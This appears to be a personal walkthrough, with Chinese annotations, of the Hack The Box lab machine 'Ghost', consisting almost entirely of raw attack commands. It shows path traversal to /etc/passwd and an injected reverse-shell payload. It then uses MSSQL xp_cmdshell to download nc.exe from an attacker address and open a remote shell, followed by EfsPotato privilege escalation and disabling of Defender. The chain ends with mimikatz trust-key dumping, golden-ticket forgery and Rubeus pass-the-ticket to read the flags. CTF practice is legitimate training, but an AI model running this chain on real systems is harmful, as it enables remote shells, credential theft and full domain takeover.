 # Ghost


http://ghost.htb:8008/ghost/api/v3/content/posts/?extra=../../../../etc/passwd&key=a5af628828958c976a3b6cc81a


curl http://intranet.ghost.htb:8008/api-dev/scan -X POST -H 'X-DEV-INTRANET-KEY: !@y******' -H 'Content-Type: application/json' -d '{"url": "<<bash 196 revshell>>"}'


python3 mssqlclient.py ghost.htb/intranet_principal:'He******'@DC01.ghost.htb -windows-auth

impacket-mssqlclient florence.ramirez:'He*****'@ghost.htb -windows-auth

ux******和He******都可以

enum_links

use_link [PRIMARY]

use master

exec_as_login sa

[impacket-mssqlclient] --> EXEC xp_cmdshell 'powershell -c "Invoke-WebRequest -Uri http://10.10.xx.xx/nc.exe -OutFile $env:TEMP\nc.exe"'
                           EXEC xp_cmdshell '%TEMP%\nc.exe -e cmd.exe 10.10.xx.xx xxxx';
[python3 mssqlclient.py] --> xp_cmdshell


./EfsPotato.exe 'nc.exe -e cmd.exe 10.10.xx.xx xxxx'


wmic useraccount get name,sid


关AV：
Set-MpPreference -DisableRealtimeMonitoring $true


.\mimikatz.exe "lsadump::trust /patch" exit


.\mimikatz.exe "kerberos::golden /user:Administrator /domain:CORP.GHOST.HTB /sid:S-1-5-21-2034262909-2733679486-179904498-502 /sids:S-1-5-21-4084500788-938703357-3654145966-519 /rc4:dae1ad83e2af14a379017f244a2f5297 /service:krbtgt /target:GHOST.HTB /ticket:golden.kirbi" exit


.\Rubeus.exe asktgs /ticket:golden.kirbi /dc:dc01.ghost.htb /service:CIFS/dc01.ghost.htb /nowrap /ptt


type \\DC01.ghost.htb\c$\Users\justin.bradley\Desktop\user.txt
type \\DC01.ghost.htb\c$\Users\Administrator\Desktop\root.txt

